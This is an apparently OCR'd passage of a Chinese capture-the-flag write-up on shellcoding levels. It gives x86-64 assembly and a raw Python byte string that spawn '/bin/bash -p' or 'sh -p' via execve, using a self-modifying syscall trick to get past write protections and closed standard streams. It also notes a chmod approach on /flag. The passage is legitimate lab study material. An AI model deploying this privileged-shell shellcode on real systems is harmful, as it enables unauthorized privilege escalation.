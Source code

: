 ```
    push 0xb
    pop rsi
    add rsi, rsp
    push rsi     # '-p\x00' 
    push 0x10
    pop rsi
    add rsi, rsp
    push rsi #  'sh\x00' 
    mov rsi, rsp
    xor edx, edx #  0 
                        # call execve() 
    push 0x3b # 0x3b 
    pop rax
    #  					syscall
    push 0x050e
    inc qword ptr [rsp]
    jmp rsp
    nop
```
## 其他方法【待补充....】
> 参考 level 6 给的限制，level 5 大概可以调用写入权限。不过可能有点麻烦...

# level 6 在上题基础上 shellcode前4MB区域无写入权限
```basic
puts("Removing write permissions from first 4096 bytes of shellcode.\n");
assert(mprotect(shellcode_mem, 4096, PROT_READ|PROT_EXEC) == 0);
```
## 对寄存器操作实现 execve(/bin/bash -p）
```python
shellcode = b'\xeb"_j\x00h-p\x00\x00TZj\x00RWT^j\x00Zj;Xh\x0e\x05\x00\x00H\xff\x04$\xff\xe4\x90\xe8\xd9\xff\xff\xff/bin/bash\x00'
```
## 其他思路【待补充...】
# level 7 关闭标准流
> shellcode 正常执行，但是涉及到标准输入/标准输出等将无法成功. 【交互模式强制被关闭，直接获取 shell 或者 
> orw 将 flag 读到终端 均不可行】
> - 方法一：由于本来就有一个 hacker 权限的 shell，可以通过 shellcode 修改文件权限，然后直接 cat。

```c
puts("This challenge is about to close stdin, which means that it will be harder to pass in a stage-2 shellcode. You will need");
puts("to figure an alternate solution (such as unpacking shellcode in memory) to get past complex filters.\n");
assert(fclose(stdin) == 0);

puts("This challenge is about to close stderr, which means that you will not be able to get use file descriptor 2 for output.\n");
assert(fclose(stderr) == 0);

puts("This challenge is about to close stdout, which means that you will not be able to get use file descriptor 1 for output.");
puts("You will see no further output, and will need to figure out an alternate way of communicating data back to yourself.\n");
assert(fclose(stdout) == 0);
```
## 调用 chmod 修改 /flag 文件权限
```basic
int chmod(const char *path, mode_t mode);
```